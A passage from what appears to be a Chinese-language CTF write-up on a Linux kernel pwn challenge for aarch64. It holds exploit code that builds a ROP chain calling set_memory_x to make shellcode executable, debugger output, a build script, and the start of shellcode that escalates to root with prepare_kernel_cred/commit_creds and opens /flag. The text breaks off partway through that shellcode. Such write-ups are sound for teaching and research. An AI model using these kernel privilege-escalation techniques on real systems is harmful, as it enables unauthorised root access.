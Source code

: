 ```c
    [    6.324288] x8 : 00000000000001e0 x7 : 00000000000001d8 x6 : 00000000000001d0 
    
    ROP:
    0x0884cc5c: mov x1, x8; mov x0, x9; blr x10; ldp x29, x30, [sp], #0x10; ret; 

    /home/pwn # cat /proc/kallsyms | grep set_memory_x
    ffff800008030948 T set_memory_x
    */
   
    *(long long *)(exp+0x90)  = 0xffff80000884cc5c;  // rop gadget

    *(long long *)(exp+0x1e8) = 0xffff800000e42388;  // x9 -> x0
    *(long long *)(exp+0x1e0) = 1;                   // x8 -> x1    
    *(long long *)(exp+0x1f0) = 0xffff800008030948;  // set_memory_x

    *(long long *)(exp+0xb0 ) = 0xffff800000e42388;  // shellcode addr

    write(f,exp,0x200);
}
```

断点仍然打在shellcode上，成功执行：

```c
───────────────────────────────[ DISASM ]────────────────────────────
 ► 0xffff800000e42388    movz   x0, #0x1
   0xffff800000e4238c    movz   x0, #0x1
   0xffff800000e42390    movz   x0, #0x1
   0xffff800000e42394    movz   x0, #0x1
   0xffff800000e42398    movz   x0, #0x1
```

自动化脚本：

```
python3 exp.py
aarch64-linux-gnu-gcc  exp.c -static -o exp
find . | cpio -H newc -o > ../rootfs.cpio ; gzip -f ../rootfs.cpio
gdb-multiarch -x ./gdb.cmd
```

#### 内核读文件

在比赛时我没弄明白怎么从内核切回正常的用户态去执行，所以想直接使用内核函数去读文件然后打出来，如我之前的例子：

- [linux 内核 初探：运行你代码在内核态](https://xuanxuanblingbling.github.io/ctf/pwn/2021/08/05/kernel/)

虽然dmesg普通用户无权限查看，也就是说读完flag后不能用printk进行打印，但发现在崩溃现场可以打印寄存器信息。所以想到可以在读完flag后，将其扔到寄存器里，然后主动触发一个崩溃，即可泄露出flag。

```python
from pwn import *
context(arch='aarch64')

shellcode = asm('''
     mov x0, 0
     ldr x1, =0xffff8000080a24f8  // prepare_kernel_cred
     blr x1
    
     ldr x1, =0xffff8000080a2258  // commit_creds
     blr x1
     
     ldr x0, =0x67616c662f        // /flag
     str x0, [sp]
     mov x0, sp
     mov x1, 0
     mov x2, 0
     ldr x5, =0xffff8000082214e0  // filp_open
```